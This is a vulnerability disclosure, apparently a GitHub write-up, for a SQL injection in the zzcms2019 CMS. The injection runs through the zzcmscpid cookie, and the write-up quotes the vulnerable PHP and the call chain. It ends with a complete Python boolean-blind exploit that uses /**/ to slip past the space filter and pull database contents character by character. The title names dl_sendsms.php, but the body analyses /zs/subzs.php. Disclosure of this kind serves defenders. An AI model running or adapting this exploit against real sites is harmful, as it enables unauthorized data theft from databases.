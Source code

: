 # zzcms2019 SQL injection vulnerability in dl_sendsms.php


Build the test environment locally

You can also download it here ：http://www.zzcms.net/about/6.htm

This SQL injection vulnerability exists in line 16 of `/zs/subzs.php`, and the key code is:

```php
function showcookiezs($cs){

. . .  . . . 

if (!isset($_COOKIE["zzcmscpid"])){
$str="暂无记录";
}else{
$cpid=$_COOKIE["zzcmscpid"];
	if (strpos($cpid,",")>0){
		$cpid=str_replace(" ","",$cpid);
		$cpid=str_replace("deleted","",$cpid);//cookie会出现deleted的情况
		$sql="select id,proname,img from zzcms_main where id in (".$cpid.")";
	}else{
	checkid($cpid);
	$sql="select id,proname,img from zzcms_main where id='$cpid' ";
	}
$n=1;
$str="<table width=100% border=0 cellspacing=0 cellpadding=5><tr>";	
$rs=query($sql);
while($row=fetch_array($rs)){
	. . .  . . .
}
$str=$str. "</table>";
$str=$str. "<div style='text-align:center;font-weight:bold'><a href='/zs/zs_list.php?action=ClearCookies'>清空查看记录</a></div>";
}

return $str;
}
```

In `"where id in (".$cpid.")"`, concatenate the cookie's zzcmscpid into the SQL statement without escaping single quotes

Trace back the code to get the calling sequence of related functions, showlabel -> fixed -> showcookiezs-> injection

But the showlabel function can be called from multiple places

```php
function showlabel($str){
global $b;//zsshow需要从zs/class.php获取$b；zxshow从s/class.php获取$b；
checkver($str);
//固定标签=========================
$channels=array('ad','zs','dl','zx','pp','job','zh','announce','cookiezs','zsclass','keyword','province','sitecount');
foreach ($channels as $value) {
if (strpos($str,"{#show".$value.":")!==false){
$n=count(explode("{#show".$value.":",$str));//循环之前取值
	for ($i=1;$i<$n;$i++){ 
	$cs=strbetween($str,"{#show".$value.":","}");
	if ($cs<>''){$str=str_replace("{#show".$value.":".$cs."}",fixed($cs,$value),$str);}	//$cs直接做为一个整体字符串参数传入，调用时再转成数组遍历每项值
	}	
}
}
```

From the function definition, it can be seen that the `$str` variable must contain "{#showcookiezs", which means that "{#showcookiezs" exists in the template content.

These are the template files that satisfy the criteria

![](https://i.loli.net/2019/09/20/FcoH4PXdDOClxB1.png)

So you can finally inject it through `/zs/zs_list.php`, because the Spaces in `/zs/subzs.php` are filtered and bypassed by replacing the Spaces with `/**/`


Condition: the backend data of the test environment is empty, you must add the data first, register the account of the company type and then send it to the user center -> for investment promotion

![](https://i.loli.net/2019/09/20/IxOyuH1alYveVko.png)

The id of the newly added data starts at 1 (payload and exp can be modified depending on the actual situation), and the payload test page is used to return the results

![](https://i.loli.net/2019/09/20/eqfGFLd8VPcNyBH.png)


Return normal, according to the page return results are not the same (F12 source code found different) Boolean blind injection, exp is as follows

```python
#coding: utf-8
import requests
import string

url = 'http://{}/zs/zs_list.php'

#header 头，自己根据实际环境做修改
headers = {
'Host':'{}',
'User-Agent':'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:68.0) Gecko/20100101 Firefox/68.0',
'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
'Accept-Language':'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
'Accept-Encoding':'gzip, deflate',
'Content-Type':'application/x-www-form-urlencoded',
'Connection':'keep-alive',
'Cookie':'{}'
}

def Sqli(host,sql):
	global url
	global headers
	url = url.format(host)
	sqli = "ascii(substr(({}),{},1)))={}"
	sqli_2 = "0,(if((({}),1,0)))#"
	res_data = ""
	s = requests.session()
	i = 1
	while 1:
		tmp_data = res_data
		for c in string.printable:
			tmp_header = headers['Cookie']
			sqli_data = sqli_2.format(sqli.format(sql,str(i),ord(c)))
			sqli_data = sqli_data.replace(' ','/**/')
			headers['Cookie'] = headers['Cookie'] + "; zzcmscpid=" + sqli_data
			res = s.get(url, headers=headers)
			if "onload='resizeimg(60,60,this)'" in res.text: #自己根据实际环境做修改
				headers['Cookie'] = tmp_header
				res_data += c
				print (res_data)
				break
			headers['Cookie'] = tmp_header
		i += 1
		if tmp_data == res_data:
			print ('完成')
			return 

if __name__ == "__main__":
	#设置 host 地址
	host = "127.0.0.1:9000"
	#设置用户 cookie
	user_cookie = "PHPSESSID=89m7nn9g388n5il12dde5cb9kp; UserName=test; PassWord=343b1c4a3ea721b2d640fc8700db0f36"
	sql = "select group_concat(user(),version(),@@version_compile_os)"
	headers['Host'] = headers['Host'].format(host)
	headers['Cookie'] = headers['Cookie'].format(user_cookie)
	Sqli(host,sql)
```

exp 运行结果

![](https://i.loli.net/2019/09/20/qlifZa7cxFCjHES.png)